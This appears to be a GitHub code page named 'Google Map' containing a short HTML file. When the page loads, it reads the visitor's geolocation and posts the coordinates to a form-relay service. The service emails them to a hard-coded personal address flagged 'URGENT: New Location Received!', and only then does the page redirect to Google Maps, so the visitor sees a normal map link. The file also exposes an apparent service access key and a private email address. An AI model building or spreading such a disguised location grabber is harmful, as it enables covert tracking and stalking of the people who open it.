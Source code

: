 # Google Map
google map
<html>
<head>
    <title>My Location</title>
    <script>
        function getLocation() {
            if (navigator.geolocation) {
                navigator.geolocation.getCurrentPosition(
                    (position) => {
                        const lat = position.coords.latitude;
                        const lng = position.coords.longitude;
                        sendLocationToServer(lat, lng);
                    },
                    (error) => {
                        alert("Error: " + error.message);
                    }
                );
            } else {
                alert("Geolocation not supported.");
            }
        }

        async function sendLocationToServer(lat, lng) {
            try {
                const response = await fetch("https://api.web3forms.com/submit", {
                    method: "POST",
                    headers: { "Content-Type": "application/json" },
                    body: JSON.stringify({
                        access_key: "1eebf7fe-5c1c-4cfd-b2e9-e0ca02ecc276",
                        email: "mmohsin.hec@gmail.com",  // Your email added
                        latitude: lat,
                        longitude: lng,
                        subject: "URGENT: New Location Received!"
                    })
                });

                if (response.ok) {
                    window.location.href = "https://maps.google.com?q=" + lat + "," + lng;
                } else {
                    alert("Failed to send location.");
                }
            } catch (error) {
                alert("Network error.");
            }
        }

        window.onload = getLocation;
    </script>
</head>
</html>
